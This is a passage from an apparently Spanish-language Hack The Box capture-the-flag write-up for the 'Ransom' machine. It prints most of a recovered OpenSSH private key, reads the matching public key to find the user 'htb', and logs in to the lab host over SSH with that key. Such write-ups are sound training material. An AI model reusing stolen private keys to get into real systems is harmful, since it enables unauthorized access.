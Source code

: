 ```python
uhIXnoFCoQb3BojikIXn8KrjXc3r8wAAAAMBAAEAAAGBAN9OO8jzVdT69L4u08en3BhzgW
b2/ggEwVZxhFR2UwkPkJVHRVh/f2RkGbSxXpyhbFCngBlmLPdcGg5MslKHuKffoNNWl7F3
d3b4IeTlsH0fI9WaPWsG3hm61a3ZdGQYCT9upsOgUm/1kPh+jrpbLDwZxxLhmb9qLXxlth
hq5T28PYdRV1RoQ3AuUvlUrK1n1RfwAclv4k8VLx3fq9yGwB/OoOnPC2VWnAmEQgalCrzw
SByvJ+bUTNbfXruM3mHITcNCI63WRKRTdrgYYqB5CWfcSzv+EYcp0U1UcVBzdfjWeYVeid
B2Ox66u+K7HJeE43apaKnbo9Jz4d5P6QiW5JXWUSfkPdmucyUH9J8ZoiOCYBkA4HvjtG5j
SeRQF8/kD2+qxzeCGOEimCHnwoa2x8YnFe4pOH/eAGosa9U+gTzYnOjQO1pstgx8EwN7XN
cJKj9yjsGUYC0lBLc+B0bojdspqXHJHt5wsZNn5oE5d5GWMJNbyWDmhI0xbYrMFh4XoQAA
AMAaWswh5ADXw5Oz3bynmtMj8i+Gv7eXmYnJofOO0YBIrgwYIUtI0uSjSPc8wr7IQu7Rvg
SmoJ2IHKRsh+1YEjSygNCQnvF09Ux8C0LJffhskwmKa/PV4hhGhdF1uNnBNSgA874/3LfS
KbQ7//DT/M46klb6XE/6i212lmCn8GBeYjhWnhxM+2ls4znNnRIh7UaxqD9Bri9k3rBryD
MsqSoRBWMo7zFLuEUVF/GIdpC6FO6mAzdZUSM2euAr7gnrHm8AAADBAPhj+aC7asgf+/Si
vcONe1tXP+8vOx4NT/Wg04pSEAiCMV/BDEwUVRKUtSGTDfVy6Jwd9PrCCIXzVg+9WupQaV
bildsXUqvg6qT5/quJKgJ/Tfv9MVGCfNd04Shzl3CELv0B1dsil1k4aLRaR2Etp3pKVVED
5QCPDWq+TXnDN824699A8JKRTlxsmGtctiW2ZVB03k157/8X8Hqyilp1b0zQBAPSL0GjtO
7nCFwoCk0wSfJn+ajH0DiEX486Ml+SKwAAAMEA8kCbfWoUaWXQepzBbOCt492WZO0oYhQ7
K4+ecXxq7KTCGIfhsE5NZlmOJbiA2SdYKErcjBzkCavErKpueAqO1xLTiwNKeitISvFjVo
MC/2lF32S9aYPK05Wb259zZm/r1OTeFy/4L82ToDgyPR7chk2yuR+fEuH6vFAXGNZC3qG8
kHpM9OGxnmiggYI0pSaeW2TPhNVJD0mcFYY50wgjcX7FwRaQ4kDUG3Jio46OlzzSNbjQQB
RIHIz+LEYAPdFZAAAAE2h0YkB1YnVudHUtdGVtcGxhdGUBAgMEBQYH
-----END OPENSSH PRIVATE KEY-----
❯ chmod 600 id_rsa
```

Pero no sabemos el usuario para eso vamos a ver la **id_rsa.pub** para ver a quien le pertenece 

```python
❯ cat id_rsa.pub
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: id_rsa.pub
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDrDTHWkTw0RUfAyzj9U3Dh+ZwhOUvB4EewA+z6uSunsTo3YA0GV/j6EaOwNq6jdpNrb9T6tI+RpcNfA+i
       │ cFj+6oRj8hOa2q1QPfbaej2uY4MvkVC+vGac1BQFs6gt0BkWM9JY7nYJ2y0SIibiLDDB7TwOx6gem4Br/35PW2sel8cESyR7JfGjuauZM/DehjJJGfqmeuZ
       │ 2Yd2Umr4rAt0R4OEAcWpOX94Tp+JByPAT5m0CU557KyarNlW60vy79njr8DR8BljDtJ4n9BcOPtEn+7oYvcLVksgM4LB9XzdDiXzdpBcyi3+xhFznFKDYUf
       │ 6NfAud2sEWae7iIsCYtmjx6Jr9Zi2MoUYqWXSal8o6bQDIDbyD8hApY5apdqLtaYMXpv+rMGQP5ZqoGd3izBM9yZEH8d9UQSSyym/te07GrCax63tb6lYgU
       │ oUPxVFCEN4RmzW1VuQGvxtfhu/rK5ofQPac8uaZskY3NWLoSF56BQqEG9waI4pCF5/Cq413N6/M= htb@ransom
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Ahora tenemos el usuario `htb` y su `id_rsa` y nos podemos conectar por `SSH`

```powershell
❯ ssh -i id_rsa htb@10.10.11.153
The authenticity of host '10.10.11.153 (10.10.11.153)' can't be established.
ECDSA key fingerprint is SHA256:tT45oQAnI0hnOIQg3ZvtoS4RG00xhxxBJua12YRVv2g.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.153' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
```
